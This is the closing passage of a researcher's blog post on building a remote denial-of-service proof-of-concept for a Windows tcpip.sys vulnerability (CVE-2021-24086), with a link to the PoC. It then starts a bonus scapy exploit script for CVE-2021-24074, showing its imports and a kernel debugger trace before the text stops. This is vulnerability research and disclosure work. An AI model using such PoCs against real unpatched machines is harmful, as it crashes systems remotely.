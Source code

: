 # Conclusion

In this post I tried to take you with me through my journey to write a PoC for CVE-2021-24086, a true remote DoS vulnerability affecting Windows' tcpip.sys driver found by Microsoft own's [@piazzt](https://twitter.com/piazzt). From zero to remote BSoD. The PoC is available on [my github](https://github.com/0vercl0k) here: [0vercl0k/CVE-2021-24086](https://github.com/0vercl0k/CVE-2021-24086).

It was a wild ride mainly because it all looked way too easy and because I ended up chasing a bunch of ghosts.

I am sure that I've lost about 99% of my readers as it is a fairly long and hairy post, but if you made it all the way there you should join and come hang in the newly created *Diary of a reverse-engineer* Discord: [https://discord.gg/4JBWKDNyYs](https://discord.gg/4JBWKDNyYs). We're trying to build a community of people enjoying low level subjects. Hopefully we can also generate more interest for external contributions :)

Last but not least, special greets to the usual suspects: [@yrp604](https://twitter.com/yrp604) and [@__x86](https://twitter.com/__x86) and [@jonathansalwan](https://twitter.com/jonathansalwan) for proof-reading this article.

# Bonus: CVE-2021-24074

Here is the Poc I built based on the high quality blogpost put out by [Armis](https://www.armis.com/resources/iot-security-blog/from-urgent-11-to-frag-44-microsoft-patches-critical-vulnerabilities-in-windows-tcp-ip-stack/):

```python
# Axel '0vercl0k' Souchet - April 4 2021
# Extremely detailed root-cause analysis was made by Armis:
# https://www.armis.com/resources/iot-security-blog/from-urgent-11-to-frag-44-microsoft-patches-critical-vulnerabilities-in-windows-tcp-ip-stack/
from scapy.all import *
import argparse
import codecs
import random

def trigger(args):
    '''
    kd> g
    oob?
    tcpip!Ipv4pReceiveRoutingHeader+0x16a:
    fffff804`453c6f7a 4d8d2c1c        lea     r13,[r12+rbx]
    kd> p
    tcpip!Ipv4pReceiveRoutingHeader+0x16e:
    fffff804`453c6f7e 498bd5          mov     rdx,r13
    kd> db @r13
    ffffb90e`85b78220  c0 82 b7 85 0e b9 ff ff-38 00 04 10 00 00 00 00  ........8.......
    kd> dqs @r13 l1
    ffffb90e`85b78220  ffffb90e`85b782c0
    kd> p
    tcpip!Ipv4pReceiveRoutingHeader+0x171:
    fffff804`453c6f81 488d0d58830500  lea     rcx,[tcpip!Ipv4Global (fffff804`4541f2e0)]
    kd>
    tcpip!Ipv4pReceiveRoutingHeader+0x178:
    fffff804`453c6f88 e8d7e1feff      call    tcpip!IppIsInvalidSourceAddressStrict (fffff804`453b5164)
    kd> db @rdx
    kd> p
    tcpip!Ipv4pReceiveRoutingHeader+0x17d:
    fffff804`453c6f8d 84c0            test    al,al
    kd> r.
    al=00000000`00000000  al=00000000`00000000
    kd> p
    tcpip!Ipv4pReceiveRoutingHeader+0x17f:
```